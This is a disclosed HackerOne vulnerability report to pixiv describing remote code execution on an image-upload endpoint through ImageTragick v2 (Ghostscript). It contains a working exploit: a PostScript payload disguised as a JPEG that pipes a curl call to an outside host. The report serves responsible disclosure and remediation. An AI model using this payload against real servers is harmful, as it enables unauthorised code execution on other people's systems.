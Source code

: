 # RCE due to ImageTragick v2

## Report Details
- **Report ID**: 402362
- **URL**: https://hackerone.com/reports/402362
- **State**: Closed
- **Severity**: critical
- **Submitted**: 2018-08-29T10:23:03.778Z
- **Disclosed**: 2021-03-16T15:35:11.606Z

## Reporter
- **Username**: chaosbolt
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: pixiv

## Vulnerability Information
Hello Pixiv team! Your Image processing process suffering from ImageTragick v2. Issue is caused by ghostscript RCE findnings.

How to reproduce:
PATCH /design
Host: manage.booth.pm

send following image:
```
------WebKitFormBoundaryXX05yrKS4g8d9CWh
Content-Disposition: form-data; name="shop[header]"; filename="imagetragick.jpeg"
Content-Type: image/jpeg

%!PS
userdict /setpagedevice undef
legal
{ null restore } stopped { pop } if
legal
mark /OutputFile (%pipe%curl https://avtohanter.ru/qwetest) currentdevice putdeviceprops
------WebKitFormBoundaryXX05yrKS4g8d9CWh--
```

How to fix:
Update ImageMagick, should help

## Impact

Remote Code Execution

## Attachments
No attachments
